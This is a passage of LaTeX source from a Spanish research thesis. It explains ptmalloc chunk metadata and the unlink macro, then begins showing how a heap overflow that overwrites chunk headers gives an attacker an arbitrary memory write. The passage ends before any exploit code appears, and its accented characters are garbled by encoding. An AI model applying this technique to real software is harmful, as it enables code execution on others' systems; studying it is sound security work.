El tama�o devuelto ser� |MIN_SIZE| si el tama�o de la petici�n es menor al tama�o m�nimo permitido. Por contra si el tama�o es mayor al m�nimo aceptado, el tama�o devuelto ser� el tama�o de la petici�n, m�s |SIZE_Z|, m�s |MALLOC_ALIGN_MASK| y a este valor se le realizar� una \textit{and} l�gica con el valor de |MALLOC_ALIGN_MASK| negado. El valor de dichas constantes se puede ver a continuaci�n:\bigskip

\lstset{language=C, caption=SIZE\_SZ (malloc.c:392), label=code:SIZE_SZ}
\begin{lstlisting}
/* The corresponding word size */
#define SIZE_SZ                (sizeof(INTERNAL_SIZE_T))
\end{lstlisting}

La constante |SIZE_SZ| es igual a 4, ya que |INTERNAL_SIZE_T| equivale al tipo |size_t| que su tama�o en una arquitectura de 32 bits es 4.\bigskip

\lstset{language=C, caption=MALLOC\_ALIGN\_MASK (malloc.c:404), label=code:MALLOC_ALIGN_MASK}
\begin{lstlisting}
#ifndef MALLOC_ALIGNMENT
/* comments */
#define MALLOC_ALIGNMENT       (2 * SIZE_SZ)
#endif

/* The corresponding bit mask value */
#define MALLOC_ALIGN_MASK      (MALLOC_ALIGNMENT - 1)
\end{lstlisting}

Se deduce entonces que |MALLOC_ALIGNMENT_MASK| es 7, que en binario se representa como 111. De este modo, y volviendo al C�digo \ref{code:checked_request2size}, se obtiene que el tama�o devuelto en una petici�n de memoria que supere el m�nimo aceptado siempre ser� el tama�o inicial de la petici�n m�s 4 m�s 7 y lo m�s importante es que los �ltimos tres bits de dicho tama�o siempre ser�n 0 debido a la \textit{and} l�gica que se realiza con el valor de |MALLOC_ALIGN_MASK| negado, que es igual a 29 bits a 1 y los tres bits menos significativos a 0.\\
Gracias a esta estrategia se pueden utilizar los �ltimos 3 bits de campo que identifica el tama�o del fragmento de memoria como metadatos. As� pues, el bit menos significativo, |P|, de dicho campo sirve para identificar si el fragmento de memoria anterior al actual est� en uso. El siguiente bit |M| identifica si el fragmento de memoria actual se ha asignado a trav�s de la llamada al sistema |mmap()| y, por �ltimo, el bit |A| sirve para identificar si el fragmento de memoria actual est� en un \textit{arena} que no es el principal.\\
Para obtener toda esta informaci�n se utilizan las siguientes macros:\bigskip

\lstset{language=C, caption=Metadatos en el campo tama�o (malloc.c:1969), label=code:bit_logic}
\begin{lstlisting}
/* size field is or'ed with PREV_INUSE when previous adjacent chunk in use */
#define PREV_INUSE 0x1

/* extract inuse bit of previous chunk */
#define prev_inuse(p)       ((p)->size & PREV_INUSE)


/* size field is or'ed with IS_MMAPPED if the chunk was obtained with mmap() */
#define IS_MMAPPED 0x2

/* check for mmap()'ed chunk */
#define chunk_is_mmapped(p) ((p)->size & IS_MMAPPED)


/* size field is or'ed with NON_MAIN_ARENA if the chunk was obtained
   from a non-main arena.  This is only set immediately before handing
   the chunk to the user, if necessary.  */
#define NON_MAIN_ARENA 0x4

/* check for chunk from non-main arena */
#define chunk_non_main_arena(p) ((p)->size & NON_MAIN_ARENA)
\end{lstlisting}

Como se puede ver, en todos los casos se utilizan \textit{ands} l�gicas para obtener el valor deseado. Si el bit en cuesti�n est� a 1, cada una de las macros devolver� 1, en caso contrario, 0.\\
Por otro lado, para obtener el tama�o del fragmento de memoria se utiliza esta macro:\bigskip

\pagebreak

\lstset{language=C, caption=Tama�o de un fragmento de memoria (malloc.c:1969), label=code:chunk_size}
\begin{lstlisting}
#define SIZE_BITS (PREV_INUSE|IS_MMAPPED|NON_MAIN_ARENA)

/* Get size, ignoring use bits */
#define chunksize(p)         ((p)->size & ~(SIZE_BITS))
\end{lstlisting}

Por �ltimo, despu�s del tama�o del fragmento de memoria actual vienen los datos que el usuario ha decidido almacenar. El puntero |mem| apunta al principio de los datos del usuario y dicha direcci�n es la que se devuelve en las funciones que utiliza el usuario para pedir memoria.\bigskip

A continuaci�n se detalla c�mo es un fragmento de memoria libre, o mejor dicho, un fragmento de memoria que ha estado en uso pero que ya se ha liberado. Tal y como se ha explicado anteriormente, la estructura de datos es la misma que con un fragmento de memoria en uso, sin embargo, su representaci�n ''pr�ctica'' es diferente.\\
La Figura \ref{fig:malloc_free_chunk} muestra cual es su representaci�n.\bigskip

\begin{figure}[!htbp]  
    \centering
    
\includegraphics[scale=0.6]{./Chapters/HeapExploiting/HeapTheory/Estructuras/img/FreeChunk.eps}   
    \caption{Fragmento de memoria libre}
    \label{fig:malloc_free_chunk}
\end{figure}

De nuevo, en esta representaci�n aparecen los dos campos de tama�o, igual que con el fragmento de memoria en uso, sin embargo, esta vez el segundo bit menos significativo del campo que identifica el tama�o del fragmento actual ya no se utiliza. Esto se debe a que los fragmentos que se han reservado a trav�s de la llamada |mmap()|, una vez liberados, no se almacenan en ning�n \textit{bin} debido a que no hay listas que almacenen los fragmentos de memoria reservados con |mmap()|, sino que se liberan con |unmap()| [malloc.c:5060]. \bigskip

\paragraph{} \label{par:adjacent_chunks}
Un dato importante es que los fragmentos de memoria contiguos a este fragmento s�lo podr�n ser fragmentos de memoria en uso o el fragmento de memoria \textit{top}. Esto significa que nunca se tendr�n dos fragmentos de memoria libres contiguos ya que si este es el caso, estos dos fragmentos de memoria libres se fusionar�an en un s�lo fragmento [malloc.c:2070]. \bigskip

A continuaci�n de los campos de tama�o, se sit�an sendos punteros al pr�ximo y al anterior fragmento de memoria libre respectivamente. Es a partir de estos punteros con los que se navega en busca del fragmento de memoria libre que mejor se adec�e a la petici�n de memoria del usuario. \\
Un dato muy importante a tener en cuenta es que el puntero |mem|, que es la direcci�n de memoria que se le devolvi� al usuario a trav�s de una llamada, por ejemplo, a |malloc()| ahora apunta directamente a estos dos punteros.\bigskip

Despu�s existen otros dos punteros que identifican el siguiente y el anterior fragmento de memoria de un tama�o mayor al fragmento actual.\bigskip

Y por �ltimo, puede existir espacio libre que no se utiliza cuando el fragmento est� libre. \bigskip

\vspace*{5em}

Con los conocimientos expuestos en este cap�tulo es posible seguir adelante teniendo una base que permita entender los conceptos que se expondr�n a continuaci�n, sin embargo, cabe destacar que el funcionamiento de la gesti�n de la memoria din�mica es complejo y en estas escasas p�ginas no se han detallado ni mucho menos todas las funcionalidades de dicho algoritmo. Si bien es posible que en los siguientes cap�tulos se detallen conceptos b�sicos que no se han visto en este apartado.






\begin{comment}

Por �ltimo, la siguiente tabla contiene el tama�o de los fragmentos de memoria que se almacenan en cada uno de los \textit{fastbins}.
\begin{table}[!htp]
	\topfigrule
   	\addtolength{\abovecaptionskip}{-12pt}   	
   	\caption{Tama�o de los fragmentos almacenados en los fastbins}
   	\label{tab:fastbin_chunk_sizes}   		
	\begin{center}
	\begin{tabular}{||l | c | r||}
		\hline
		\hline
		# del fastbin & Tama�o del fragmento (bytes) & Tama�o real del fragmento (bytes) \\
		\hline
		0 & [0, 12] & 16\\
		\hline
		1 & [13, 20] & 24\\
		\hline
		2 & [21, 28] & 32\\
		\hline
		3 & [29, 36] & 40\\
		\hline
		4 & [37, 44] & 48\\
		\hline
		5 & [45, 52] & 56\\
		\hline
		6 & [53, 60] & 64\\
		\hline
		7 & [61, 68] & 72\\
		\hline
		8 & [69, 76] & 80\\
		\hline
		9 & [77, 80] & 88\\
		\hline
	\end{tabular}
	\end{center}
\end{table}

La primera columna representa el �ndice en el array de \textit{fastbins}. La segunda columna es el rango de tama�os te�ricos de los fragmentos de memoria que se pueden almacenar en cada uno de los \textit{fastbins} y la �ltima columna
\end{comment}

\pagebreak

\section{Explotando el algoritmo ptmalloc}

Tal y como se ha explicado en el apartado \ref{sec:heap_theory_introduccion}, la gesti�n de memoria din�mica utilizada en sistemas GNU/Linux est� implementada por el algoritmo llamado \textit{ptmalloc} desarrollador por Wolfram Gloger, que es una evoluci�n de una implementaci�n anterior llamada \textit{dlmalloc} desarrollada por Doug Lea. \\
Actualmente, la gesti�n de memoria din�mica implementada en la librer�a \textit{glibc} est� basada en el algoritmo \textit{ptmalloc}, sin embargo, la implementaci�n en la \textit{glibc} contiene ciertas modificaciones que, en la mayor�a de los casos, est�n enfocadas a realizar una gesti�n de memoria de un modo m�s seguro. \bigskip

Debido a esto, en este apartado se detallar� c�mo explotar el algoritmo original sin las mejoras a�adidas en la \textit{glibc}. De este modo se podr� detallar el proceso a seguir a un nivel b�sico de modo que el lector pueda desarrollar unos buenos fundamentos con los que proseguir con el estudio de la explotaci�n del heap en cualquier arquitectura diferente a la tratada en esta investigaci�n. \bigskip

Cabe destacar que aunque no se estudie la implementaci�n del algoritmo de la \textit{glibc}, no se han encontrado investigaciones que detallen c�mo explotar el algoritmo \textit{ptmalloc}. Todas las referencias bibliogr�ficas sobre el tema han sido de excepcional ayuda, sin embargo, ninguna de ellas permite, a partir los detalles proporcionados, la ejecuci�n de c�digo arbitrario mediante la explotaci�n del algoritmo. \\
Debido a la evoluci�n del algoritmo, las t�cnicas retratadas en dichas investigaciones han quedado obsoletas mientras que lo que se detalla en esta investigaci�n permite la ejecuci�n de c�digo arbitrario siguiendo vectores de ataque diferentes a los expuestos en dichas investigaciones.\bigskip

Lo primero que se debe realizar para continuar es descargar la implementaci�n original del algoritmo \textit{ptmalloc} para que los c�digos que se desarrollaran a continuaci�n utilicen sus funciones en vez de utilizar las funciones que vienen implementadas en la \textit{glibc}. Todo este proceso est� detallado en el Ap�ndice \ref{ap:I}.\\
De ahora en adelante y hasta que se especifique lo contrario, todos los c�digos y numeraci�n de l�neas del c�digo fuente est�n en referencia al c�digo fuente del algoritmo original \textit{ptmalloc}, el especificado en el Ap�ndice \ref{ap:I}.

\pagebreak

\subsection{Teor�a sobre la macro unlink}

La vulnerabilidad que se va a estudiar en estos cap�tulos pasa por la macro \textit{unlink}.\\
Dicha macro se utiliza cuando se libera un fragmento de memoria que est� en uso. Siendo aun m�s espec�ficos, la macro unlink se ejecuta cuando se libera un fragmento de memoria que est� en uso y cuando el fragmento de memoria anterior o siguiente est� libre. De este modo se consigue, tal y como se ha explicado en la p�gina \pageref{par:adjacent_chunks}, que diferentes fragmentos de memoria libres adyacentes se consoliden en un solo fragmento de memoria libre mayor. \bigskip

La macro unlink est� definida en el archivo malloc.c en la l�nea 1975 del siguiente modo:

\lstset{language=C, caption=Macro unlink (malloc.c:1975), label=code:unlink_macro}
\begin{lstlisting}
/* Take a chunk off a bin list */
#define unlink(P, BK, FD) {     \
  FD = P->fd;                   \
  BK = P->bk;                   \
  FD->bk = BK;                  \
  BK->fd = FD;                  \
}
\end{lstlisting}

Lo primero a tener en cuenta antes de proseguir es que los fragmentos de memoria del algoritmo original \textit{ptmalloc} no son iguales a los fragmentos de memoria estudiados en el apartado anterior. A diferencia de los fragmentos de memoria implementados en la \textit{glibc}, en el algoritmo que estudiamos no existen los �ltimos dos campos detallados para un fragmento de memoria libre. Los campos que hacen de punteros al fragmento anterior y siguiente de mayor tama�o no existen. Por esta raz�n la macro unlink no hace ninguna gesti�n con ellos, simplemente trabaja con el puntero al siguiente fragmento libre [|P->fd|] y el puntero al fragmento libre anterior [|P->bk|]. \bigskip

Un fragmento de memoria est� definido tal que as�\footnote{Los comentarios en el c�digo se han movido de lugar debido a cuestiones de formato del documento.}:

\lstset{language=C, caption=malloc\_chunk (malloc.c:1682), label=code:malloc_chunk_ptmalloc}
\begin{lstlisting}
struct malloc_chunk {
  /* Size of previous chunk (if free).  */
  INTERNAL_SIZE_T      prev_size; 
  /* Size in bytes, including overhead. */
  INTERNAL_SIZE_T      size;      

  /* double links -- used only if free. */
  struct malloc_chunk* fd;        
  struct malloc_chunk* bk;
};
\end{lstlisting}

B�sicamente la vulnerabilidad que se estudiar� a continuaci�n se da debido a que los datos de control que permiten gestionar los fragmentos de memoria son adyacentes a los datos del usuario. Si existieran dos fragmentos de memoria en uso, se estructurar�an en memoria tal y como se muestra en la figura \ref{fig:two_allocated_chunks}. \bigskip

\begin{figure}[!htbp]  
    \centering
    
\includegraphics[scale=.8]{./Chapters/HeapExploiting/Unlink/img/two_allocated_chunks.eps}   
    \caption{Dos fragmentos de memoria en uso}
    \label{fig:two_allocated_chunks}
\end{figure}

Si en el c�digo fuente de un usuario de esta librer�a existiera un \textit{buffer overflow} de modo que se desbordaran los datos que se almacenan en el primer fragmento de memoria, se podr�an sobrescribir los datos de control \textit{prev\_size} y \textit{size} de modo que una vez el algoritmo los utilizara obtendr�a unos valores incorrectos.\bigskip

As� pues, es esta capacidad de sobrescribir los datos inherentes al algoritmo lo que propicia que un atacante pueda ser capaz de ejecutar c�digo arbitrario. \bigskip

La macro \textit{unlink} se utiliza cuando al liberarse un fragmento de memoria en uso, existe al menos otro fragmento de memoria libre que es adyacente al fragmento de memoria a liberar [malloc.c:4244]. De este modo, el algoritmo junta - o consolida - lo que ser�n dos - o tres - fragmentos de memoria libres en un solo fragmento de memoria libre mayor. Gracias a esto se evita una mayor fragmentaci�n interna de los fragmentos de memoria libres. \\
Si el fragmento libre es anterior al que se va a liberar, esta operaci�n se conoce como \textit{consolidate backward}, si el fragmento libre es el siguiente al que se va a liberar se conoce como \textit{consolidate forward}. \bigskip

Espec�ficamente, la macro \textit{unlink} sirve para desenlazar un fragmento de memoria libre de la lista doblemente enlazada de fragmentos de memoria libres que se detall� en la p�gina \pageref{par:bins}. La l�gica del algoritmo es simple, si existe alg�n tipo de consolidaci�n, ya sea \textit{backward} o \textit{forward}, el fragmento de memoria que ya estaba libre se elimina de la lista de \textit{bins} y se fusiona\footnote{Una fusi�n entre dos fragmentos de memoria libre, b�sicamente, se consigue a trav�s de modificar el campo \textit{size} del fragmento.} con el fragmento de memoria que se acaba de liberar. Una vez se ha realizado dicha fusi�n, el fragmento de memoria libre resultante se vuelve a a�adir a la lista de \textit{bins}\footnote{Cabe destacar que el nuevo fragmento de memoria se a�adir� a un conjunto de \textit{bins} denominado \textit{unsorted chunks}. Esto se debe a cuestiones de optimizaci�n ajenas al tema que nos concierne.}, en su debida posici�n debido al nuevo tama�o del fragmento. \bigskip

A continuaci�n se representa un caso en particular para acabar de definir gr�ficamente el proceso de desenlace realizado por \textit{unlink}. \bigskip

\begin{figure}[!htbp]  
    \centering
    
\includegraphics[scale=.8]{./Chapters/HeapExploiting/Unlink/img/initial_eight_chunks.eps}   
    \caption{Estado anterior a unlink}
    \label{fig:initial_eight_chunks}
\end{figure}

En la Figura \ref{fig:initial_eight_chunks} se representan ocho fragmentos de memoria que son contiguos entre ellos f�sicamente. Este ejemplo se ha representado con ocho fragmentos de memoria para intentar representar lo que podr�a ser un caso real donde la macro \textit{unlink} se ejecutara. Evidentemente, aquellos fragmentos que contienen el campo |bk| y el campo |fd| son fragmentos de memoria libres, mientras que los dem�s son fragmentos de memoria en uso. Como se puede apreciar, en el estado inicial no existen dos fragmentos de memoria libres contiguos ya que tal y como se ha comentado anteriormente - y se detallar� posteriormente - dos fragmentos de memoria libres contiguos se fusionan entre ellos. Los punteros |bk| y |fd| apuntan al anterior y al siguiente fragmento de memoria libre respectivamente tal y como se ejemplifica con las flechas. \bigskip

En este caso el fragmento n�mero 4 es que el que se quiere liberar mediante una llamada a |free()|. Tal y como se ve, el fragmento de memoria previo a 4 no est� en uso, est� libre. Es en este caso cuando el algoritmo ejecuta la macro \textit{unlink} [malloc:4244]. Para saber si el fragmento anterior a 4 est� libre, el algoritmo ejecuta la macro |prev_inuse()| que simplemente comprueba si el campo |SIZE| del fragmento 4 tiene el bit |PREV_INUSE| a 1. Si dicho bit est� a 0 significa que el fragmento anterior a 4 est� libre, entonces se busca en qu� direcci�n de memoria se encuentra el fragmento anterior a partir de la macro |chunk_at_offset()| que utilizando el campo |PREV_SIZE| del fragmento actual a liberar es capaz de obtener la direcci�n inicial del fragmento anterior - rest�ndole al puntero del fragmento actual el valor de su campo |PREV_SIZE| -. Una vez se conoce cual es la direcci�n de memoria del fragmento anterior a 4, se puede ejecutar la macro \textit{unlink} sobre �l. \bigskip

La macro \textit{unlink} se encarga de desenlazar de la lista de fragmentos libres el fragmento sobre el que act�a, o sea que a efectos pr�cticos, se encarga de que ning�n fragmento de memoria libre apunte al fragmento de memoria desenlazado. As� pues, los punteros |fd| y |bk| de los fragmentos libres que apuntan al fragmento sobre el que act�a \textit{unlink} - representados por las l�neas discontinuas - ser�n modificados para que apunten a otros fragmentos de memoria. \bigskip

Analizando l�nea a l�nea la macro \textit{unlink} se podr� ver c�mo la estructura final de los fragmentos de memoria ser� la representada en la Figura \ref{fig:final_eight_chunks}. \bigskip

\lstset{language=C, caption=Macro unlink. L�neas 1 y 2 , label=code:unlink_macro_l1_l2}
\begin{lstlisting}
  FD = P->fd;                   \
  BK = P->bk;                   \
\end{lstlisting}

En el C�digo \ref{code:unlink_macro_l1_l2} con la l�nea 1, en |FD| se almacena la direcci�n del fragmento 6 que es el siguiente fragmento libre de 4. En BK se almacena la direcci�n del fragmento 1. \bigskip

\lstset{language=C, caption=Macro unlink. L�nea 3 , label=code:unlink_macro_l3}
\begin{lstlisting}
  FD->bk = BK;                  \
\end{lstlisting}

A continuaci�n, en la l�nea 1 del C�digo \ref{code:unlink_macro_l3} se hace que en el campo |bk| del fragmento 6 (|FD|) se almacene la direcci�n de memoria donde se ubica el fragmento 1 (|BK|). \bigskip

\lstset{language=C, caption=Macro unlink. L�nea 4 , label=code:unlink_macro_l4}
\begin{lstlisting}
  BK->fd = FD;                  \
\end{lstlisting}

Por �ltimo, en la l�nea 1 del C�digo \ref{code:unlink_macro_l4} se hace que en el campo |fd| del fragmento 1 (|BK|) se almacene la direcci�n de memoria donde se ubica el fragmento 6 (|FD|). \bigskip

De este modo los punteros |fd| y |bk| de los fragmentos 1 y 6 respectivamente, que anteriormente apuntaban al fragmento 3 han dejado de apuntar a dicho fragmento y ahora apuntan al fragmento 6 y 1 respectivamente. Finalmente, el fragmento 3 se ha desenlazado de la lista de fragmentos libres mediante \textit{unlink}.\\
Cabe destacar que despu�s de que esto ocurra, el fragmento 3 y 4 que ahora son dos fragmentos libres contiguos se consolidan en un solo fragmento libre [malloc.c:4281] de modo que se pierde cualquier referencia a lo que anteriormente era el fragmento 4. Adem�s, este nuevo fragmento [3] tambi�n se a�ade a una lista de fragmentos libres llamada \textit{unsorted\_chunks} [malloc:4274]. \\
El resultado final de esta operaci�n se puede apreciar en la Figura \ref{fig:final_eight_chunks}. \bigskip

\begin{figure}[!htbp]  
    \centering
    
\includegraphics[scale=.8]{./Chapters/HeapExploiting/Unlink/img/final_eight_chunks.eps}   
    \caption{Estado posterior a unlink}
    \label{fig:final_eight_chunks}
\end{figure}

Por �ltimo, para no s�lo tratar con un caso complejo de \textit{unlink}, la Figura \ref{fig:basic_unlink} muestra la funcionalidad b�sica de \textit{unlink} dados tres fragmentos de memoria libres dentro de la lista doblemente enlazada de \textit{bins}. \bigskip

\begin{figure}[!htbp]  
    \centering
    
\includegraphics[scale=.6]{./Chapters/HeapExploiting/Unlink/img/basic_unlink.eps}   
    \caption{Unlink b�sico}
    \label{fig:basic_unlink}
\end{figure}

\pagebreak

\subsection{Vector de ataque}
\label{sec:attack_vector}

Partiendo de la definici�n de un fragmento de memoria |malloc_chunk| tal y como se define en el C�digo \ref{code:malloc_chunk_def}: \bigskip

\lstset{language=C, caption=Definici�n de un fragmento de memoria , label=code:malloc_chunk_def}
\begin{lstlisting}
struct malloc_chunk {

  INTERNAL_SIZE_T      prev_size;
  INTERNAL_SIZE_T      size;       

  struct malloc_chunk* fd;   
  struct malloc_chunk* bk;
};
\end{lstlisting}

Se deduce que instanciando un puntero |p| de tipo |malloc_chunk|, las direcciones equivalentes para acceder a cada uno de sus elementos son las siguientes: \bigskip

\lstset{language=C, caption=Equivalencias entre punteros , label=code:malloc_chunk_eq}
\begin{lstlisting}
p->prevsize    equivale a    *p + 0  bytes
p->size        equivale a    *p + 4  bytes
p->fd          equivale a    *p + 8  bytes
p->bk          equivale a    *p + 12 bytes
\end{lstlisting}

El C�digo \ref{code:malloc_chunk_eq} significa, por ejemplo, que para acceder al valor del campo |fd| se debe obtener la direcci�n donde apunta el puntero |p| y sumarle 8 bytes. Si |p| apuntara a la direcci�n 0x8111110, el campo |fd| estar�a situado en la direcci�n 0x8111118.\\
Una vez aclarado lo anterior, uno podr�a analizar cual es el comportamiento de la macro \textit{unlink} a nivel de punteros: \bigskip

\lstset{language=C, caption=Unlink a nivel de punteros , label=code:unlink_pointer_level}
\begin{lstlisting}
FD = P->fd;   equivale a    FD = *P + 8
BK = P->bk;   equivale a    BK = *P + 12
FD->bk = BK;  equivale a    FD + 12 = BK
BK->fd = FD;  equivale a    BK + 8 = FD
\end{lstlisting}

Suponiendo que |FD| y |BK| son punteros en C, con la l�nea 1 se obtendr�a que |FD| apunta al contenido de la direcci�n del fragmento de memoria |p| m�s 8 bytes, o sea, a la direcci�n que contiene del campo |fd| del fragmento de memoria (|p->fd|). La segunda l�nea es an�loga a la primera. \\
La l�nea n�mero 3, la m�s relevante de todas, realiza una escritura en memoria. La parte izquierda del operando significa que al contenido de la direcci�n de memoria |*p| + 8 se le suman 12 bytes. Esto significa que si la direcci�n de memoria ubicada en |*p| + 8 es 0x8000000, pasar� a ser 0x800000c\footnote{Dicha suma no ser� permanente sino que simplemente se utiliza para llevar a cabo la asignaci�n de la parte derecha del operando.}. Con la parte derecha del operando se establece que en dicha direcci�n de memoria (en el ejemplo, 0x800000c) se escribir� el contenido de la direcci�n de memoria |*p| + 12, o sea, en |p->bk|.
\paragraph*{}\label{ref:shellcode_overwrite}
Por �ltimo, con la cuarta l�nea tambi�n se realiza una escritura en memoria, sin embargo, esta escritura es una molestia que se deber� solventar. An�logamente a la l�nea 3, al contenido de |*p + 12| se le suma 8, con lo que si en |*p + 12| hab�a un 0x8000000, se obtendr� un 0x8000008. Acto seguido, en esa direcci�n de memoria (en el ejemplo, 0x8000008) se almacenar� el contenido de la direcci�n de memoria |*p + 8|, o sea, el contenido de |p->fd|. \bigskip

